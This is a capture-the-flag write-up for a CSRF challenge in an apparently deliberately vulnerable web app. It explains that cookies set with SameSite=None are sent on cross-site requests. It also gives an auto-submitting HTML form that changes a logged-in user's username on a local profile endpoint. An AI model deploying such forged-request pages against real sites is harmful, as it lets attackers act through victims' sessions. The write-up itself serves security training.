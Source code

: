 ## CSRF
## Challenge: Change the name of a user by performing Cross-Site Request Forgery from another origin.
### Category: Broken Access Control


When login as any user, observe that cookies have `SameSite` attribute is set to "None". `SameSite` Attributes can control whether and how cookies are submitted in cross-site requests.

![](../screens/csrf_1.png)


If `SameSite=None` is used, then it means that there are No restrictions (relaxed policy). Then browser will include session cookies automatically to requests regardless of where they **originate**

### PoC of how this is can be exploited
If an attacker can 'trick' you to click on this html, it can cause  CSRF attack by **Making the victim do an action on the attacker's behalf.**

1. Intercept the request of change username

![](../screens/csrf_2.png)

2. create the HTML exploit (ideally, victim will click this page and the exploit will be triggered automatically via javascript)

```html
<html>

<form action="http://127.0.0.1:3000/profile" method="POST">
        <input name="username" value="ChangedByCSRFhtml"/>
        <input type="submit"/>
</form>

<script>document.forms[0].submit();</script>
</html>  
```

Note: This challenge may not be solved unless an older browser is used
